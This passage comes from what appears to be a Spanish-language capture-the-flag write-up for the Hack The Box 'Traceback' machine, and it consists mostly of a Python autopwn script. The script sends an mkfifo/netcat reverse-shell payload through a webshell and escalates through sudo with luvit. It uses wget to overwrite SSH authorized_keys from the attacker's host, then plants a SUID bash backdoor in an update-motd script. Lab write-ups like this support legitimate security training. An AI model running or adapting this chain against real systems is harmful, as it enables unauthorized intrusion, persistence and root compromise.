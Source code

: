 ```python
		"a":"Console",
		"c":"/var/www/html",
		"p1":"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {} >/tmp/f".format(LHOST,LPORT),
		"p2":"",
		"p3":"",
		"charset":"UTF-8"
	}
	p2.status("Enviando reverse shell, por favor espere.")
	time.sleep(2)
	try:
		r2 = s.post(url,data=data2,timeout=10)
	except requests.exceptions.Timeout:
		p2.success("Estamos dentro del sistema.")


def escalarRoot(LHOST):
	p3 = log.progress("Root")
	p3.status("Escalando de webmin a sysadmin.")
	shell.sendline(""" sudo -u sysadmin /home/sysadmin/luvit -e "os.execute('/bin/bash')" """)
	shell.sendline("cd ~/.ssh")
	time.sleep(2)
	p3.status("Sobreescribiendo clave ssh.")
	shell.sendline("wget http://{}:8000/id_rsa.pub -O authorized_keys".format(LHOST))
	time.sleep(2)
	os.system("ps -aux | grep  'SimpleHTTPServer' | head -n 1 | awk '{print $2}' | xargs kill")
	p3.status("Asignando SUID a /bin/bash.")
	time.sleep(3)
	shell.sendline(""" cd /etc/update-motd.d && echo "chmod u+s /bin/bash" >> 00-header """)
	p3.success("Somos root!!")
	sys.exit(0)

def upServer():
	os.system("cd ~/.ssh && python -m SimpleHTTPServer 8000 &")

if __name__ == "__main__":

	if(len(sys.argv) != 2):
		log.info("Uso: python {} <LHOST> ; ssh sysadmin@traceback.htb 'bash -p'".format(sys.argv[0]))
		sys.exit(0)

	LHOST = sys.argv[1]

	shell = listen(LPORT,timeout=20)
	try:
		threading.Thread(target=getShell(LHOST)).start()
		threading.Thread(target=upServer).start()
	except Exception as e:
		log.error(str(e))

	if not (shell.sock is None):
		escalarRoot(LHOST)
```

## GIF del autopwn.

![GIF AUTOPWN]({{ "/assets/img/Post/GIFS/traceback.gif" }})



